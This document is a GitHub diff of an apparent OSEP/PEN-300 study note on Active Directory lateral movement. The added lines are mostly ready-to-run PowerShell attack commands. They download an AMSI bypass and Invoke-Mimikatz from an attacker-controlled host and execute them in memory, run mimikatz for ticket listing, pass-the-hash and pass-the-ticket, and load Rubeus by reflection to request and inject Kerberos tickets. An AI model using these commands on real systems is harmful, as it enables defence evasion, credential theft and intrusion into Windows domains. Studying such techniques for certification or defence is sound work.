

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Active Directory/Lateral Movement.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Active Directory/Lateral Movement.md
+++ b/Active Directory/Lateral Movement.md
@@ -1,5 +1,35 @@
 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
 about them also helped me improve my knowlegde of Active Directory which is always useful)
+
+When using mimikatz, consider using this powershell implementation([Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)) once you've bypassed AMSI in order to be more evasive. Below are some examples(the amsi.txt file contents are [here](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/AMSI%20Bypasses/PowerShell/AmsiContext.ps1)):
+
+```
+PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt') | IEX
+
+PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
+
+PS C:\> Invoke-Mimikatz -Command "`"kerberos::list`""
+
+PS C:\> Invoke-Mimikatz -Command "`"sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe`""
+
+PS C:\> Invoke-Mimikatz -Command "`"kerberos::ptt C:\ticket.kirbi`""
+```
+
+*Explanation of the backticks*: We must first quote on the -Command command line parameter, but the mimikatz command must also be itself in quotes. Because of that, we need to escape the inner quotes with a backtick character.
+
+Additionally, when using Rubeus, I recommend you to invoke it via PowerShell reflection as follows:
+
+```
+PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/amsi.txt')
+
+PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.1/Rubeus.exe')
+
+PS C:\> $assem = [System.Reflection.Assembly]::Load($data)
+
+PS C:\> [Rubeus.Program]::Main("asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt".Split())
+
+PS C:\> [Rubeus.Program]::Main("ptt /ticket:<ticket_kirbi_file>".Split())
+```
 
 **PASS THE HASH:**
 
````
